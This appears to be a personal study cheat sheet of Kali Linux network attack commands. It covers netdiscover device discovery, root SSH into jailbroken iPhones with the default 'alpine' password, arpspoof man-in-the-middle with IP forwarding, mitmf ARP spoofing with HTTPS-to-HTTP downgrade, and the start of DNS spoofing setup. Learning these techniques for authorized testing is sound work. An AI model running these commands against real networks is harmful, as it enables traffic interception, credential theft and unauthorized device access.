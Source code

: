 to make the process faster you can use gpu instead of cpusudo 

### post accss actions to get data, see all the devices connected to our network

`netdiscover -r <inet range>/24`

-r to specify an ip range to search for

/24 is to specify aole ip range in the subnet which will end with 254

### apple device open ssh key exploitation

`ssh root@<address of apple device in the name scan report from quick scan plus>`

when the apple phone is jailbroken the password is alpine unless the user changes it

### nat network arp attack

run the following command on both target and kali linux

`arp -a`

run the following on kali linux

`arpspoof -i eth0 -t <target ip address> <kali ip from the prev command>`

`arpspoof -i eth0 -t  <kali ip from the prev command> <target ip address>`

for network forwarding

`echo 1> /proc/sys/net/ipv4/ip_forward`

for my machine run the following one as the previous one won't work

`sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'`

### man in the middle attack(mitmf) arp spoofing

`apt-get install mitmf`

`mitmf --arp --spoof --gateway <gateway ip> --target <target ip> -i eth0`

if we do not specify the target it will attack all subnet in the network

-i is for interface

this command will only get http request data, https is more secure, to for intercepting https we need to downgrade https to http, and mitmf does this automatically. mitmf automatically downgrades https connections to http.

### mitmf dns spoofing

first edit the file

`gedit/leafpad /etc/mitmf/mitmf.conf`

then we will finde a records as a records are responsible for transfering/translating domain names to ip address
